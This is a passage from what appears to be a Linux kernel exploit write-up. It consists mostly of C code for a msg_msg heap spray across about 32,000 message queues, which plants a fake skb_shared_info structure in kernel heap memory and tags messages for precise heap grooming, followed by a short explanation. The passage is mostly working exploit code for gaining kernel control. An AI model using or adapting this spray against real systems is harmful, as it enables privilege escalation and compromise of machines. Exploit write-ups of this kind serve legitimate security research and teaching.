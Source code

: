 
```c
#define NUM_QUEUE_MAX 32000
#define NUM_QUEUE_RESV 100 // reserved for exploitation
#define NUM_QUEUE (NUM_QUEUE_MAX - NUM_QUEUE_RESV)
#define NUM_MSG 204 // calculated from 16384 (max bytes in queue) / MSG_SIZE
#define CHUNK_SIZE 0x80
#define MSG_SIZE (CHUNK_SIZE - 0x30)

// Spray as many msg_msgs as possible to full the kernel heap memory
// For 4 GB RAM system, we spray NUM_QUEUE * NUM_MSG * CHUNK_SIZE = 794 MB msg_msg
// It's enough for us to analyze and make our choose kernel address become a msg_msg.
int setup_msg()
{
	msqid = malloc(sizeof(*msqid) * 40000);
	hackq = malloc(sizeof(*msqid) * NUM_QUEUE_RESV);
	printf("setup msg start..\n");
	memset(&msg.mtext[0], 0, 0x2000);
	msg.mtype = 1;
	system("ipcrm --all=msg");
	for (int i = 0; i < NUM_QUEUE; i++)
	{
		msqid[i] = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
		SYSCHK(msqid[i]);
	}
	for (int i = 0; i < NUM_QUEUE_RESV; i++)
	{
		hackq[i] = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
		SYSCHK(hackq[i]);
	}
	// Fake `struct skb_shared_info` in the data of msg_msg
	// We will choose a specific kernel heap address as `skb_shinfo(skb)`
	msg.mtext[0x44 - 0x30] = '\x10'; // nr_frags
	for (int j = 0; j < NUM_MSG; j++)
	{
		for (int i = 0; i < NUM_QUEUE; i++)
		{
			*(size_t *)&msg.mtext[0] = i; // queue identifier stored here
			msg.mtype = j + 1; // msg index identifier
			SYSCHK(msgsnd(msqid[i], &msg, MSG_SIZE, IPC_NOWAIT));
		}
	}
	printf("setup msg done\n");
}
```
We spray in some defined amount of message queue and some defined amount msg_msg for each allocated message queue.
For every message we add queue identifier and message identifier that will useful in exploitation, for example 
to check corrupted message queue and perform msg_msg "feng shui" in accurate and stable.
Queue identifier means queue the message is in. Msg identifier means what order the msg is in the queue.

